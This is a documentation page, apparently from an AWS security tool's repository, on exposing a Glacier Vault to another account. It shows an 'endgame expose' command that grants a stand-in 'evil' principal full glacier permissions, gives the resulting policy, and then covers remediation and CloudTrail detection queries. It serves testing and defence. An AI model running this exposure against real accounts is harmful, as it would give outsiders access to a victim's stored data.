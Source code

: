# Glacier Vault

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service glacier --name test-resource-exposure
```

* To view the contents of the Glacier Vault Access Policy, run the following:

```bash
export VICTIM_ACCOUNT_ID=111122223333

aws glacier get-vault-access-policy \
    --account-id $VICTIM_ACCOUNT_ID \
    --vault-name test-resource-exposure
```

* Observe that the output of the overly permissive Glacier Vault Access Policies resembles the example shown below.


## Example

Observe that the policy below allows the evil principal (`arn:aws:iam::999988887777:user/evil`) the `glacier:*` permissions to the Glacier Vault named `test-resource-exposure`.

```json
{
    "policy": {
        "Policy": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"glacier:*\",\"Resource\":\"arn:aws:glacier:us-east-1:111122223333:vaults/test-resource-exposure\"}]}"
    }
}
```

## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that Glacier Vaults are only shared with trusted accounts, and that the trusted accounts truly need access to the Vaults.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your Vaults**: Tightly control access to the following IAM actions:
  - [glacier:GetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-GetVaultAccessPolicy.html): _Retrieves the access-policy subresource set on the vault_
  - [glacier:ListVaults](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-vaults-get.html): _Lists all vaults_
  - [glacier:SetVaultAccessPolicy](https://docs.aws.amazon.com/amazonglacier/latest/dev/api-SetVaultAccessPolicy.html): _Configures an access policy for a vault and will overwrite an existing policy._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='glacier.amazonaws.com' and eventName='SetVaultAccessPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='glacier.amazonaws.com' and (eventName='SetVaultAccessPolicy' and requestParameters.policy.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [set-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/set-vault-access-policy.html)
* [get-vault-access-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/glacier/get-vault-access-policy.html)